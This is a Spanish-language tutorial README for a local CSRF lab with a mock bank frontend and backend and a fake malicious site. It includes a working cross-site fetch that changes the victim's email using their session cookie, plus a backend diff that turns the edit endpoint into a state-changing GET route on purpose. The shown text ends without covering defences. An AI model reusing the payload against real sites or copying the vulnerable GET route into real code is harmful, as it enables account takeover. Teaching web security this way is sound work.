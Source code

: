 CSRF(Cross-Site Request Forgery) es un tipo de ataque que engaña al usuario para que ejecute acciones no deseadas en una aplicación web en la que está auntenticado. El atacante se aprovecha de la confianza que el usuario tiene en la aplicación y la utiliza para realizar acciones en su nombre. CSRF utiliza esta confianza para enviar una petición a la aplicación con la cookie de sesión. La aplicación web no tiene forma de distinguir entre una solicitud legítima y una solicitud CSRF, por lo que procesa la solicitud como si viniera del usuario.

En este ejemplo vamos a ver como se puede realizar un ataque CSRF, los errores que se pueden cometer al crear una aplicación web y como se puede evitar este tipo de ataques.

Vamos a tener tres partes funcionando:

- El Front End de un banco.
- El backend de un banco.
- El front end de un sitio malicioso que recopila información.



# Manos a la obra

> ## Instalación

Hacemos un _npm install_ en el directorio de trabajo que es el 03-CSRF e instalamos todas las dependencias de las 3 apps.

```
npm install
```

Podemos arrancar las apps con _npm start_, o arrancarlas mejor individualmente para ver el mensaje por la consola de la app de backend cuando se produzca el ataque.

```
npm start

```

Abrimos el navegador y accedemos a la app de frontend en la ruta http://localhost:1234

<img src="./assets/01.png" style="zoom:67%;" />

> ## Pasos

Una vez que arrancamos el frontend y el backend de mybank, podemos logearnos usando:

```
email: user@email.com
password: test
```

Ya logeado podemos inspeccionar las _dev tools_ para ver que dentro de _Application_ tenemos almecenada nuestra cookie.

<img src="./assets/02.png" style="zoom:67%;" />

Abrimos ahora nuestro navegador en la ruta http://localhost:1235, aquí vamos a simular que nos han enviado un correo con un enlace malicioso.
Hemos creado un enlace que nos redirige a una fake web de noticias que nos simula el ataque CSRF.

En este caso vamos a intentar hacer un cross posting al dominio del banco
desde nuestra aplicación maliciosa arrastrando las cookies del bnaco.

Dentro de la la ruta _frontend-chupilchuli/src/index.html_, tenemos un fetch comentado. Como está ahora mismo sería seguro y no se realizaría el CSRF.

```javascript
 <script>
    // Esto es CSRF con post
    fetch("/api/security/edit", {
      method: "POST",
      credentials: "include",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        email: "hack@hacker.com",
      }),
  </script>
```

Si entramos en las _dev tools_ en la consola nos dice que el servidor ha respondido con un 405, método no permitido y no se ha podido realizar la petición. Es decir, estamos seguros que no se ha realizado el ataque.

Esto pasa porque hacemos un post.

<img src="./assets/03.png" style="zoom:67%;" />

¿Y si cambiamos por un GET? Esto se consideraría una mala práctica a la hora
de implementar tu API Rest, pero es muy común encontrarlo en API's que no
están bien implementadas.

Este cambio es un error, ya que el método GET no debería modificar datos en el servidor. Si utilizamos el método GET para realizar una petición que modifica datos en el servidor, estamos abriendo la puerta a un ataque CSRF.

Vamos a refactorizar nuestro código:

_frontend-chupilchuli/src/index.html_

```diff
<script>
-       // Esto es CSRF con post
-       fetch("/api/security/edit", {
-         method: "POST",
-         credentials: "include",
-         headers: {
-           "Content-Type": "application/json",
-         },
-         body: JSON.stringify({
-           email: "hack@hacker.com",
-         }),
-       });
+      // Esto es CSRF con get
+      fetch("http://localhost:3000/api/security/edit?" +
+        new URLSearchParams({
+                    email: "hack@hacker.com",
+        }), {
+        method: "GET",
+        credentials: "include",
+      })
+        .then((response) => response.text())
+        .then((text) => console.log(text))
+        .catch((error) => console.log(error));
    </script>
```

Y vamos a nuestro backend a _backend-mybank/src/pods/security/security.rest-api.js_ al _endpoint_ de _edit_, y cambiamos el método _post_ por _get_.

_backend-mybank/src/pods/security/security.rest-api.js_

```diff
- .post("/edit", authenticationMiddleware, async (req, res, next) =>
+ .get("/edit", authenticationMiddleware, async (req, res, next) => {
    try {
      const newUserEmail = await userRepository.updateEmail(
        req.userSession?.id,
        req.body.email
      );
      console.log(
        `User ${req.userSession?.id} email changed to ${newUserEmail}`
      );
      res.send("Email changed");
    } catch (error) {
      next(error);
    }
  });

```

Volvemos a repetir la simulación de la apertura de nuestra aplicación maliciosa, y vemos que en la consola del _backend_ de _mybank_ nos aparece el mensaje de que el email ha sido cambiado.

<img src="./assets/04.png" style="zoom:67%;" />

Ahora podríamos entrar en he perdido mi contraseña y cambiarla sin ningún problema y hacer en la aplicación de _mibank_ lo que quisiéramos.

